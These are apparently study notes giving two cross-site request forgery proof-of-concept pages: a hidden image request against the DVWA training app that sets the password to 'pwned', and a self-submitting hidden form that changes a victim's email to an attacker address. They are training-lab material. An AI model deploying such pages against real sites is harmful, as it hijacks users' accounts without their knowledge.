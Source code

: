 ### Change Password - DVWA

```html
<html>
	<head>
		<title>Good site!</title>
	</head>
	<body>
		<h1>Hello world!</h1>
		<img style="display:none" src="http://192.168.0.11/dvwa/vulnerabilities/csrf/?password_new=pwned&password_conf=pwned&Change=Change" alt="">
	</body>	
</html>
```

### Change Email Address - Portswigger
```html
<html> 
	<body>
		<form action="https://vulnerable-website.com/email/change" method="POST"> 
			<input type="hidden" name="email" value="pwned@evil-user.net" /> 
		</form>
		<script>
			document.forms[0].submit();
		</script>
	</body>	
</html>
```
